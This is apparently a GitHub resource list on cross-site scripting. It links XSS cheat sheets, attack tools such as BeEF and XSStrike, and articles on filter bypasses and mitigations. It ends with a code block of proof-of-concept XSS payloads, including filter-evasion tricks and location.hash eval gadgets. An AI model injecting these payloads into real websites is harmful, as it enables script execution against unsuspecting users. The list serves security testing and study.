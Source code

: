 # xss sets
[Sec-wiki XSS](https://www.sec-wiki.com/news/search?wd=xss)  
[XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html)  
[xssed](http://xssed.com)  

# Tools
[Beef](https://github.com/beefproject/beef)  
[XSStrike](https://github.com/s0md3v/XSStrike)  
[xssor2](https://github.com/evilcos/xssor2)  
[xssfork](https://github.com/bsmali4/xssfork)  
[XSS-Filter-Evasion-Cheat-Sheet-CN](https://github.com/l3m0n/XSS-Filter-Evasion-Cheat-Sheet-CN)  

# blogs
[BRUTE XSS](http://brutelogic.com.br/blog/)  

# articles
[Bypass XSS Protection with xmp, noscript, noframes.. etc](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  
[XSS attacks on Googlebot allow search index manipulation](https://www.tomanthony.co.uk/blog/xss-attacks-googlebot-index-manipulation/)  
[A WOrmable XSS on HackMD](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)  
[Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)[pocs](https://github.com/google/security-research-pocs/tree/master/script-gadgets)  
[Security Safe HTML](http://www.gwtproject.org/doc/latest/DevGuideSecuritySafeHtml.html)  
[Reducing XSS by way of Automatic Context-Aware Escaping in Template Systems](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)  
[Fighting XSS with Isolated Scripts](https://sirdarkcat.blogspot.com/2017/01/fighting-xss-with-isolated-scripts.html)  
[Google搜索中的突变XSS](https://xz.aliyun.com/t/4865)  
[特斯拉上价值10000美元的XSS漏洞](https://nosec.org/home/detail/2781.html)  

[About Google](https://nosec.org/home/detail/2449.html)  
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)  

```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(1)</script><" 
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<img src=1 alt="xss＂onerror=alert(1);//">
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(1)>,1/

</title><script>alert(/poc/)</script>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```

